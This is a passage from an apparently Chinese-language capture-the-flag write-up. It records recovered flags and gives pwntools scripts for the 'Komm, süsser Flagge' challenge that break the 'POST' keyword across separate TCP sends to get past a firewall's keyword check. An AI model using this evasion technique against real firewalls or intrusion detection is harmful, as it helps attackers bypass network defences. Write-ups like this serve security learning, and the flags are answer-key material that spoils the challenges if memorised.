 然后处理一下，去除输入的字符和无法显示的字符，用node.js运行即可。

![322cc914ff026b72de53ab3aa48547c2.png](_resources/322cc914ff026b72de53ab3aa48547c2.png)

`flag{y0u_cAn_ReSTorE_C0de_fr0m_asc11nema_3db2da1063300e5dabf826e40ffd016101458df23a371}`


## Komm, süsser Flagge


## 我的POST

由于防火墙拦截的时候，需要完整检测到`POST`，那么，我把他拆开来发就行了。

```python
from pwn import *

conn = connect("192.168.23.1", 18080)

if __name__ == '__main__':
    conn.send(b"PO")
    conn.send(b"S")
    conn.send(b"T / HTTP/1.1\r\n")
    conn.send(b"Host: 202.38.93.111:18080\r\n")
    conn.send(b"Content-Length: 104\r\n"
              b"Content-Type: application/x-www-form-urlencoded\r\n\r\n"
              b"...\r\n"
              b"\r\n")

    print(conn.recv())

```

`flag{ea5Y_sPl1tt3r_a075cc30d0}`

## 我的P

> 可能是非预期解

解题方式同`我的POST`

```python
from pwn import *

conn = connect("202.38.93.111", 18081)

if __name__ == '__main__':
    conn.send(b"PO")
    conn.send(b"S")
    conn.send(b"T / HTTP/1.1\r\n")
    conn.send(b"Host: 202.38.93.111:18081\r\n")
    conn.send(b"Content-Length: 104\r\n"
              b"Content-Type: application/x-www-form-urlencoded\r\n\r\n"
              b"...\r\n"
              b"\r\n")

```